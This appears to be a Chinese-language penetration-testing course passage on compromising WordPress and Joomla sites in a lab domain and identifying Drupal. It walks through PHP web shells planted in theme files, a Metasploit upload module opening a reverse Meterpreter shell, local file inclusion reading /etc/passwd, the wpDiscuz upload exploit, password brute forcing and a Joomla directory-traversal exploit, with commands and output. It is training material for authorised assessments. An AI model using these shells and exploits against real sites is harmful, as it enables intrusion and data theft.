上面的代码应该允许我们通过 GET 参数 0 执行命令。我们将这一行代码添加到文件中的注释下方，以避免对文件内容进行过多修改。

点击底部的 Update File 按钮保存。我们知道 WordPress 主题位于 /wp-content/themes/<theme name> 。我们可以通过浏览器或使用 cURL 与 Web Shell 进行交互。和往常一样，我们可以利用此访问权限获取交互式反向 shell，并开始探索目标。

```bash
$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Metasploit 的 [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) 模块可用于上传 shell 并自动执行它。

该模块会上传一个恶意插件，然后利用该插件执行 PHP Meterpreter shell。我们首先需要设置必要的选项。

```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local

```

然后我们可以执行 show options 命令，确认所有配置都已正确设置。在本实验环境中，必须同时指定 vhost（虚拟主机） 和 IP 地址，否则漏洞利用会失败并报错：Exploit aborted due to failure: not-found: The target does not appear to be using WordPress.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

一旦我们对配置满意，就可以输入 `exploit`来获取反向 shell。从这里开始，我们可以枚举主机上的敏感数据，或者寻找提升权限（包括垂直/水平提升和横向移动）的路径。

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

在上面的例子中，Metasploit 模块将 wCoUuUPfIO.php 文件上传到了 /wp-content/plugins 目录。许多 Metasploit 模块（以及其他工具）都会尝试清理自身生成的文件，但有些模块会失败。在评估过程中，我们应该尽一切努力从客户端系统中清除该文件，无论是否成功移除，都应该在报告附录中列出该文件。至少，我们的报告应该包含一个附录部分，列出以下信息——更多内容将在后续模块中介绍。

* 被利用的系统（主机名/IP 地址和利用方法）
* 被盗用用户（帐户名、盗用方式、帐户类型（本地或域））
* 在系统上产生的痕迹/遗留文件
* 更改（例如添加本地管理员用户或修改组成员身份）

### 2.3 利用已知漏洞

多年来，WordPress 核心代码也存在不少漏洞，但绝大多数漏洞都存在于插件中。根据 WordPress 漏洞统计页面（[链接在此](https://wpscan.com/statistics)） 的数据，截至撰写本文时，WPScan 数据库中已收录 23,595 个漏洞。这些漏洞可归类如下：

* 4% WordPress 核心
* 89% 插件
* 7% 主题

自 2014 年以来，与 WordPress 相关的漏洞数量持续增长，这很可能是由于大量免费（以及付费）主题和插件的出现，而且每周都有新的主题和插件加入。因此，我们在对 WordPress 网站进行漏洞枚举时必须格外仔细，因为我们可能会发现一些插件存在最近发现的漏洞，甚至可能发现一些老旧、废弃或已被遗忘的插件，这些插件虽然不再对网站发挥作用，但仍然可以访问。

> 注意：我们可以使用 [waybackurls ](https://github.com/tomnomnom/waybackurls)工具，通过 Wayback Machine 查找目标网站的旧版本。有时，我们可能会找到 WordPress 网站的旧版本，其中使用了存在已知漏洞的插件。如果该插件已不再使用，但开发者没有正确移除，我们仍然可以访问其存储目录并利用漏洞。

### 2.4 易受攻击的插件 - mail-masta

我们来看几个例子。[mail -masta 插件](https://wordpress.org/plugins/mail-masta/)已停止维护，但多年来下载量超过 2300 次。在评估过程中遇到该插件并非不可能，它很可能曾经被安装过，但后来被遗忘了。自 2016 年以来，该插件曾遭受过[未经身份验证的 SQL 注入](https://www.exploit-db.com/exploits/41438)和[本地文件包含攻击 ](https://www.exploit-db.com/exploits/50226)。

让我们来看一下 mail-masta 插件的漏洞代码。

```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

如我们所见， pl 参数允许我们包含一个文件，而无需任何类型的输入验证或清理。利用这一点，我们可以将任意文件包含到 Web 服务器上。让我们利用这一点，使用 cURL 来检索 /etc/passwd 文件的内容。

```bash
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

### 2.5存在漏洞的插件 - wpDiscuz

[wpDiscuz](https://wpdiscuz.com/) 是一款用于增强 WordPress 页面文章评论功能的插件。截至撰写本文时，该插件的[下载量已超过 160 万次 ](https://wordpress.org/plugins/wpdiscuz/advanced/)，活跃安装量超过 9 万，是一款极其热门的插件，我们在评估过程中很有可能遇到它。根据版本号（7.0.4），此次[漏洞利用](https://www.exploit-db.com/exploits/49967)很有可能让我们获得命令执行权限。该漏洞的关键在于文件上传绕过。wpDiscuz 的设计初衷是仅允许上传图片附件。但该漏洞可以绕过文件 MIME 类型检测函数，从而允许未经身份验证的攻击者上传恶意 PHP 文件并获得远程代码执行权限。有关绕过 MIME 类型检测函数的更多信息，请点击[此处](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/)查看。

该漏洞利用脚本接受两个参数： `-u` URL 和 `-p` 有效帖子的路径。

```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url":"http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php" 

> id

[x] Failed to execute PHP code...

```

按照目前编写的漏洞利用脚本可能无法成功，但我们可以使用 cURL 通过上传的 Web Shell 执行命令。只需在 .php 扩展名后添加 ?cmd= 即可运行漏洞利用脚本中列出的命令。

```
$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

在这个例子中，我们需要确保清理 uthsdkbywoxeebg-1629904090.8191.php 文件，并再次将其作为测试工件列入报告的附录中。

### 2.6 继续前进

正如前两节所述，WordPress 的攻击面非常广阔。在我们作为渗透测试人员的职业生涯中，几乎肯定会多次遇到 WordPress。我们必须具备快速掌握 WordPress 安装信息并进行彻底的手动和工具枚举的技能，以发现高风险的错误配置和漏洞。如果您对以上关于 WordPress 的内容感兴趣，可以查看 “攻击 WordPress”模块以进行更多练习。

## 3. Joomla - 发现与枚举

[Joomla ](https://www.joomla.org/)于 2005 年 8 月发布，是另一款免费开源的内容管理系统 (CMS)，用于构建论坛、图片库、电子商务、用户社区等。它使用 PHP 编写，后端数据库为 MySQL。与 WordPress 类似，Joomla 也拥有超过 7,000 个扩展程序和 1,000 多个模板，可供用户进行扩展。目前互联网上约有 250 万个网站正在运行 Joomla。

### 3.1 识别

假设我们在外部渗透测试中遇到一个电商网站。乍一看，我们并不确定它运行的是什么系统，但似乎并非完全定制。如果我们能获取该网站运行的系统信息，或许就能发现漏洞或配置错误。基于有限的信息，我们推测该网站运行的是 Joomla，但我们需要确认这一点，并进一步确定其版本号以及其他信息，例如已安装的主题和插件。

我们通常可以通过查看页面源代码来识别 Joomla，源代码会告诉我们正在处理的是 Joomla 网站。

```bash
$ curl -s http://dev.inlanefreight.local/ | grep Joomla

    <meta name="generator" content="Joomla! - Open Source Content Management" />


<SNIP>
```

Joomla 网站的 `robots.txt `文件通常如下所示：

```txt
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

我们通常还能看到 Joomla 特有的网站图标（但并非总是如此）。如果存在 README.txt 文件，我们就可以确定 Joomla 的版本。

```bash
$ curl -s http://dev.inlanefreight.local/README.txt | head -n 5

1- What is this?
    * This is a Joomla! installation/upgrade package to version 3.x
    * Joomla! Official site: https://www.joomla.org
    * Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
    * Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging

```

在某些 Joomla 安装中，我们可以通过 media/system/js/ 目录中的 JavaScript 文件或浏览到 administrator/manifests/files/joomla.xml 来识别版本。

```bash
$ curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2005 - 2019 Open Source Matters. All rights reserved</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.9.4</version>
  <creationDate>March 2019</creationDate>
  
 <SNIP>
```

cache.xml 文件可以帮助我们提供大致的版本信息。它位于 plugins/system/cache/cache.xml 。

### 3.2 枚举

我们来试用一下 droopescan ，是一款基于插件架构的扫描工具，支持 SilverStripe、WordPress 和 Drupal 系统；对 Joomla 和 Moodle 系统仅提供有限的扫描功能。

我们可以克隆 Git 仓库并手动安装，或者通过 pip 安装。

```bash
$ sudo pip3 install droopescan
```

安装完成后，我们可以通过运行 droopescan -h 来确认该工具是否正常工作。

我们来扫描一下，看看结果如何。

```bash
$ droopescan scan joomla --url http://dev.inlanefreight.local/
[+] Possible interesting urls found:
    Detailed version information. - http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml
    Login page. - http://dev.inlanefreight.local/administrator/
    License file. - http://dev.inlanefreight.local/LICENSE.txt
    Version attribute contains approx version - http://dev.inlanefreight.local/plugins/system/cache/cache.xml

[+] Scan finished (0:00:01.523369 elapsed)
```

正如我们所见，除了可能的版本号之外，它并没有找到太多信息。我们还可以尝试使用 [JoomlaScan](https://github.com/drego85/JoomlaScan) ，这是一个受已停止维护的 OWASP joomscan 工具启发而开发的 Python 工具。JoomlaScan JoomlaScan 稍旧，需要 Python 2.7 才能运行。

```bash
$ curl https://pyenv.run | bash
$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

```bash
$ python2.7 -m pip install urllib3
$ python2.7 -m pip install certifi
$ python2.7 -m pip install bs4
```

虽然有点过时，但它对我们的枚举仍然很有帮助。让我们运行一次扫描。

```bash
$ python2.7 joomlascan.py -u http://dev.inlanefreight.local

-------------------------------------------
             Joomla Scan          
   Usage: python joomlascan.py <target>  
    Version 0.5beta - Database Entries 1233
         created by Andrea Draghetti   
-------------------------------------------
Robots file found:       > http://dev.inlanefreight.local/robots.txt
No Error Log found

Start scan...with 10 concurrent threads!
Component found: com_actionlogs  > http://dev.inlanefreight.local/index.php?option=com_actionlogs
     On the administrator components
Component found: com_admin   > http://dev.inlanefreight.local/index.php?option=com_admin
     On the administrator components
Component found: com_ajax    > http://dev.inlanefreight.local/index.php?option=com_ajax
     But possibly it is not active or protected
     LICENSE file found      > http://dev.inlanefreight.local/administrator/components/com_actionlogs/actionlogs.xml
     LICENSE file found      > http://dev.inlanefreight.local/administrator/components/com_admin/admin.xml
     LICENSE file found      > http://dev.inlanefreight.local/administrator/components/com_ajax/ajax.xml
     Explorable Directory    > http://dev.inlanefreight.local/components/com_actionlogs/
     Explorable Directory    > http://dev.inlanefreight.local/administrator/components/com_actionlogs/
     Explorable Directory    > http://dev.inlanefreight.local/components/com_admin/
     Explorable Directory    > http://dev.inlanefreight.local/administrator/components/com_admin/
Component found: com_banners     > http://dev.inlanefreight.local/index.php?option=com_banners
     But possibly it is not active or protected
     Explorable Directory    > http://dev.inlanefreight.local/components/com_ajax/
     Explorable Directory    > http://dev.inlanefreight.local/administrator/components/com_ajax/
     LICENSE file found      > http://dev.inlanefreight.local/administrator/components/com_banners/banners.xml


<SNIP>

```

虽然不如 droopescan 那么强大，但这个工具可以帮助我们找到可访问的目录和文件，并且可能有助于识别已安装的扩展程序。目前，我们知道我们正在处理的是 Joomla 3.9.4 版本。管理员登录门户位于 http://dev.inlanefreight.local/administrator/index.php 。尝试枚举用户时会返回一条通用错误消息。
`Warning Username and password do not match or you do not have an account yet.`

Joomla 安装的默认管理员账户是 admin ，但密码是在安装时设置的，因此我们唯一能进入管理员后台的方法是，如果该账户设置了一个非常弱或常见的密码，我们可以通过猜测或简单的暴力破解来进入。我们可以使用[此脚本](https://github.com/ajnik/joomla-bruteforce)尝试暴力破解登录密码。

```bash
$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

我们成功找到了凭证admin:admin。有人没有遵循最佳实践！

### 3.3 攻击

我们现在知道，我们正在处理的是一个 Joomla 电子商务网站。如果我们能够获得访问权限，就有可能进入客户的内部环境，并开始枚举内部域环境。与 WordPress 和 Drupal 一样，Joomla 的核心应用程序和扩展程序也存在不少漏洞。此外，与其他系统一样，如果我们能够登录到管理后台，就有可能获得远程代码执行权限。

在 Joomla 枚举阶段和公司数据搜寻的常规研究过程中，我们可能会遇到泄露的凭据，这些凭据可用于我们的目的。使用我们在上一节示例中获得的凭据 admin:admin ，让我们登录到目标后端 http://dev.inlanefreight.local/administrator 。登录后，我们可以看到许多可用的选项。就我们的目的而言，我们希望添加一段 PHP 代码来实现远程代码执行 (RCE)。我们可以通过自定义模板来实现这一点。

如果您登录后收到"An error has occurred. Call to a member function format() on null"请访问“http://dev.inlanefreight.local/administrator/index.php?option=com_plugins”并禁用"Quick Icon - PHP Version Check"插件 ,这将使控制面板正常显示。



从这里，我们可以点击左下角 Configuration 下的 Templates 来打开模板菜单。

接下来，我们可以点击模板名称。在 Template 列标题下，我们选择 protostar 。这将带我们进入 Templates: Customise 页面。



最后，我们可以点击页面查看其源代码。
建议养成一个习惯：为我们的Web后门使用**非标准文件名和参数**，避免在安全评估期间被随意试探的攻击者轻易发现并访问。
我们还可以对其设置密码保护，甚至将访问权限仅限定为我们的攻击源IP。
此外，务必在使用完成后**立即清理掉Web后门**，但在提交给客户的最终报告中，仍需记录下文件名、文件哈希值以及存放路径。

我们选择 error.php 页面。我们将添加一行 PHP 代码来执行该代码，如下所示。

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```



输入完成后，点击顶部的 Save & Close ，然后使用 cURL 确认代码执行。

```bash
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

接下来，我们可以升级到交互式反向 shell，开始寻找本地提权途径，或者专注于企业网络内的横向移动。我们务必再次记录下这一变化，并将其添加到报告附录中，同时尽一切努力从 error.php 页面中移除 PHP 代码片段。

### 3,4利用已知漏洞

截至撰稿时，已有 426 个与 Joomla 相关的漏洞被分配了 CVE 编号。然而，漏洞被披露并获得 CVE 编号并不意味着它一定可被利用，或者存在可用的公开 PoC 漏洞利用代码。与 WordPress 类似，影响 Joomla 核心的严重漏洞（例如远程代码执行漏洞）非常罕见。在 exploit-db 等网站上搜索 Joomla 漏洞，会发现超过 1400 条记录，其中绝大多数与 Joomla 扩展程序有关。

让我们深入探讨一个影响 Joomla 3.9.4 版本的核心漏洞，我们的目标 http://dev.inlanefreight.local/ 在枚举过程中被发现正在运行该版本。查看 Joomla 下载页面，我们可以看到 3.9.4 版本发布于 2019 年 3 月。虽然截至 2021 年 9 月，Joomla 已更新至 4.0.3 ，因此该版本已过时，但在评估过程中遇到此版本的可能性仍然很高，尤其是在针对大型企业时，这些企业可能没有维护完善的应用程序清单，并且可能并未意识到该版本的存在。

经过一番研究，我们发现此版本的 Joomla 可能存在 [CVE-2019-10945 漏洞](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945)，该漏洞允许攻击者通过目录遍历和身份验证删除文件。我们可以使用此漏洞利用脚本来列出网站根目录和其他目录的内容。该脚本的 Python 3 版本可以在这里找到。我们也可以用它来删除文件（不建议这样做）。如果我们能够通过应用程序 URL 访问它，则可能导致我们访问敏感文件，例如包含凭据的配置文件或脚本。如果 Web 服务器用户拥有相应的权限，攻击者还可以通过删除必要的文件来造成损害。

我们可以通过指定 --url 、 --username 、 --password 和 --dir 参数来运行脚本。作为渗透测试人员，只有当管理员登录门户无法从外部访问时，这种方法才对我们有用，因为一旦掌握了管理员凭据，我们就可以远程执行代码，正如我们上面所看到的。

```bash
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945  
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                               


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt

```

## 4. Drupal - 发现与枚举

[Drupal ](https://www.drupal.org/)于 2001 年发布，是我们此次常用应用世界之旅中介绍的第三个也是最后一个内容管理系统 (CMS)。Drupal 是另一个广受企业和开发者欢迎的开源 CMS。Drupal 使用 PHP 编写，并支持使用 MySQL 或 PostgreSQL 作为后端数据库。此外，如果没有安装数据库管理系统，也可以使用 SQLite。与 WordPress 类似，Drupal 允许用户通过主题和模块来增强网站功能。截至撰写本文时，Drupal 项目拥有近 43,000 个模块和 2,900 个主题，按市场份额计算，它是第三大最受欢迎的 CMS。

### 4.1 识别

在一次外部渗透测试中，我们发现了一个疑似内容管理系统（CMS）的网站，但初步检查后发现它并非基于 WordPress 或 Joomla。我们知道 CMS 通常是“肥肉”攻击目标，所以让我们深入研究一下，看看能发现什么。

Drupal 网站可以通过多种方式识别，包括通过页眉或页脚消息 Powered by Drupal 、标准的 Drupal 徽标、 CHANGELOG.txt 文件或 README.txt file 的存在、通过页面源代码，或者 robots.txt 文件中的线索，例如对 /node 引用。

```bash
$ curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>

```

识别 Drupal CMS 的另一种方法是通过[nodes](https://www.drupal.org/docs/8/core/modules/node/about-nodes)。Drupal 使用节点来索引其内容。一个节点可以包含任何内容，例如博客文章、投票、文章等等。页面 URI 通常采用 /`node/<nodeid>` 形式。

